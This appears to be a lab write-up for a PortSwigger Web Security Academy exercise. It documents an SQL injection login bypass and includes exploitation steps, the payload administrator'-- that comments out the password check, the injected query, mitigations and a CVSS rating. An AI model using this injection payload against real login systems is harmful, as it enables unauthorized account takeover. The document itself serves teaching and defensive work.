

# Authentication Bypass via SQL Injection in Login Interface

## Overview

The application's login system is susceptible to SQL Injection. This vulnerability occurs because user-supplied credentials are concatenated directly into backend SQL commands without proper sanitation, validation, or parameterization.

During an authentication attempt, the application runs a query structured like this:

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password';
```

By injecting database syntax into the username field, an attacker can modify the logic of this query to bypass authentication without needing valid credentials. This security flaw enables unauthorized access to user accounts, potentially resulting in the full compromise of the system.

---

## Exploitation Steps

1. Navigate to the application's login page.
2. Input the following payload into the username field:

```sql
administrator'--
```

3. Enter any arbitrary value in the password field.

Example:

```text
Password123
```

4. Submit the credentials.
5. Verify that authentication is bypassed and access is granted to the `administrator` account.

---

## Proof of Concept

### Payload

```sql
administrator'--
```

### Intended Database Query

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password';
```

### Injected Database Query

```sql
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = 'password';
```

### Explanation

The double-dash sequence (`--`) functions as a comment marker in SQL. 

Everything placed after this comment sequence is ignored by the database server. Consequently, the password check is discarded, and the execution logic simplifies to:

```sql
SELECT * FROM users
WHERE username = 'administrator';
```

Because the `administrator` account is present in the database, the query returns a valid record, allowing the login flow to succeed without verifying the password.

---

## Screenshots

### Screenshot 1 - Login Request with SQL Injection Payload

**Purpose:** Demonstrates successful authentication bypass using SQL Injection.

**Take Screenshot When:**

* Burp Suite intercepts the login request.
* The username parameter contains:

```sql
administrator'--
```

* The request is visible before forwarding.

**Insert Screenshot Below**


---

### Screenshot 2 - Administrator Dashboard / Lab Solved

**Purpose:** Demonstrates successful login as the administrator account.

**Take Screenshot When:**

* The application displays the administrator account page.
* OR the PortSwigger lab displays:

```text
Congratulations, you solved the lab!
```

**Insert Screenshot Below**



---

## Severity and Impact

* Total authentication bypass.
* Unauthorized access to privileged accounts.
* High risk of administrative account compromise.
* Exposure of sensitive user and customer information.
* Potential takeover of the entire application deployment.

---

## Mitigation Guidelines

1. Leverage parameterized queries (prepared statements) for all authentication logic.
2. Avoid concatenating client inputs directly into SQL command strings.
3. Validate and filter user input on the server side.
4. Apply the principle of least privilege to database credentials.
5. Utilize robust authentication frameworks or secure ORM libraries.
6. Perform regular vulnerability scans and secure code reviews.

---

## CVSS Rating

**CVSS v3.1 Score:** 9.1 (Critical)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
```

---

## CVSS Justification Rationale

### Attack Vector

Network (N) – The vulnerability is exploitable remotely via standard HTTP requests.

### Attack Complexity

Low (L) – Bypassing the login flow requires only basic SQL input modification.

### Privileges Required

None (N) – The attack is conducted against the public login endpoint.

### User Interaction

None (N) – No victim interaction is required to exploit this vulnerability.

### Scope

Unchanged (U) – The impact is restricted to the application database and session state.

### Confidentiality Impact

High (H) – Grants access to sensitive administrative data and profiles.

### Integrity Impact

High (H) – Allows the attacker to perform modifications and administrative actions.

### Availability Impact

Low (L) – Privileged access could indirectly lead to service disruptions or modifications.

---

## External References

* OWASP SQL Injection Prevention Cheat Sheet
* PortSwigger Web Security Academy - SQL Injection Vulnerability Allowing Login Bypass
